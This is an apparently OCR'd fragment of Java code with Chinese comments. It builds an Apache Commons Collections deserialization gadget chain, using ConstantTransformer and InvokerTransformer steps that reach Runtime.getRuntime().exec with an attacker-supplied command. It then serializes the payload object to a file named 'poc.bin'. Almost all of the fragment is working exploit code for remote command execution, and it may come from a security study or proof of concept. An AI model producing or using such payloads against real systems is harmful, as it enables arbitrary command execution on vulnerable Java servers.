 ```Java
            File file = new File("poc.bin");
            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
            oos.writeObject(instance);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    // 获取调用链
    private static ChainedTransformer getChainedTransformer(String execArgs) {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime",
                    new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[]{}}),
            new InvokerTransformer("exec", // 方法名
                new Class[]{String.class}, // 参数类型
                new Object[]{execArgs}) // 参数值
        };
        return new ChainedTransformer(transformers);
    }
}
```

